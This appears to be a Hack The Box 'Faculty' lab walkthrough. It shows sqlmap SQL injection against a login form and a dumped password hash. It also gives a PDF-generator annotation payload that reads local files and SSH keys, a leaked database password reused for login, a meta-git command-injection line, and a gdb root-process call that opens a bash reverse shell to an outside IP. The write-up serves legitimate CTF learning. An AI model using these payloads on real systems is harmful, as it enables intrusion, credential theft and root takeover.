 Hack The Box : Faculty

IP=10.129.92.25

```
Nmap scan:
# Nmap 7.92 scan initiated Sun Jul  3 05:03:53 2022 as: nmap -sCV -o nmap 10.129.92.25
Nmap scan report for 10.129.92.25
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://faculty.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Faculty schedule system user login

http://faculty.htb/login.php

faculty admin login

http://faculty.htb/admin/login.php

sql injection is possible and response manupulation is possible

sql injection in login form
username parameter is vulunerable

```
sqlmap -r req.txt -p username 
```

Retriving databases

```
available databases [2]:
[*] information_schema
[*] scheduling_db 
```

Extract database tables

```
+---------------------+
| class_schedule_info |
| courses             |
| faculty             |
| schedules           |
| subjects            |
| users               |
+---------------------+
```
```
+----+---------------+---------+---------------------------+----------+
| id | name          | type    | password                  | username |
+----+---------------+---------+---------------------------+----------+
| 1  | Administrator | <blank> | 1fecbe762af147c1176a0fc20 | <blank>  |
+----+---------------+---------+---------------------------+----------+
```

After login thier is a function used to create pdf from Faculty List. It convert the html tempelete to pdf

html tempelete 

```
<h1><a name="top"></a>faculty.htb</h1><h2>Faculties</h2><table>	<thead>		<tr>			<th class="text-center">ID</th>			<th class="text-center">Name</th>			<th class="text-center">Email</th>			<th class="text-center">Contact</th></tr></thead><tbody><tr><td class="text-center">85662050</td><td class="text-center"><b>Blake, Claire G</b></td><td class="text-center"><small><b>cblake@faculty.htb</b></small></td> <td class="text-center"><small><b>(763) 450-0121</b></small></td></tr><tr><td class="text-center">30903070</td><td class="text-center"><b>James, Eric P</b></td><td class="text-center"><small><b>ejames@faculty.htb</b></small></td> <td class="text-center"><small><b>(702) 368-3689</b></small></td></tr><tr><td class="text-center">63033226</td><td class="text-center"><b>Smith, John C</b></td><td class="text-center"><small><b>jsmith@faculty.htb</b></small></td> <td class="text-center"><small><b>(646) 559-9192</b></small></td></tr></tboby></table>
```

Exploit this funtion lead to LFI

payload
```
<annotation file=\”/etc/passwd\” content=\”/etc/passwd\” icon=\”Graph\” title=\”Attached File: /etc/passwd\” pos-x=\”195\” />
```

Full payload
<h1><a name="top"></a>faculty.htb</h1><h2>Faculties</h2><table>	<thead>		<tr>			<th class="text-center">ID</th>			<th class="text-center">Name</th>			<th class="text-center">Email</th>			<th class="text-center">Contact</th></tr></thead><tbody><tr><td class="text-center">85662050</td><td class="text-center"><b>Blake, Claire G</b></td><td class="text-center"><small><b>cblake@faculty.htb</b></small></td> <td class="text-center"><small><b>(763) 450-0121</b></small></td></tr><tr><td class="text-center">30903070</td><td class="text-center"><b>James, Eric P</b></td><td class="text-center"><small><b>ejames@faculty.htb</b></small></td> <td class="text-center"><small><b>(702) 368-3689</b></small></td></tr><tr><td class="text-center">63033226</td><td class="text-center"><b>Smith, John C</b></td><td class="text-center"><small><b>jsmith@faculty.htb</b></small></td> <td class="text-center"><small><b>(646) 559-9192</b></small></td></tr></tboby></table><annotation file="/var/www/scheduling/admin/index.php" content="/home/developer/.ssh/id_rsa" icon=”Graph” title=”Attached File: /etc/passwd” pos-x=”195” />

Retreving passwd file

```bash
root:x:0:0:root:/root:/bin/bash
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash
developer:x:1001:1002:,,,:/home/developer:/bin/bash
```

Retreving Database password from db_connect.php

"password:Co.met06aci.dly53ro.per"

Initial access as gbyolo

password resue

```
gbyolo:Co.met06aci.dly53ro.per
```
For deverloper

abusing meta-git

Bug report from HackerOne link=https://hackerone.com/reports/728040

Reading the developer id_rsa 
sudo -u developer /usr/local/bin/meta-git clone 'sss||cat /home/developer/.ssh/id_rsa'

ssh as user developer

privilege escalation using Linux capabilities 

Linux capabilities provide a subset of the available root privileges to a process

about Linux capabilites

Let’s assume we are running a process as a normal user. This means we are non-privileged. We can only access data that owned by us, our group, or which is marked for access by all users. At some point in time, our process needs a little bit more permissions to fulfill its duties, like opening a network socket. The problem is that normal users can not open a socket, as this requires root permissions.

In this box the user developer in Debug group and gdb is also in the debug group
so we can run the GDB as root privilege

Abusing GDB

If GDB is installed you can debug a process from the host and make it call the system function. (This technique also requires the capability SYS_ADMIN)

Attaching root process and make a system call for run the cmd as root

```bash
gdb -p 1234
(gdb) call (void)system("ls")
(gdb) call (void)system("sleep 5")
(gdb) call (void)system("bash -c 'bash -i >& /dev/tcp/192.168.115.135/5656 0>&1'")
```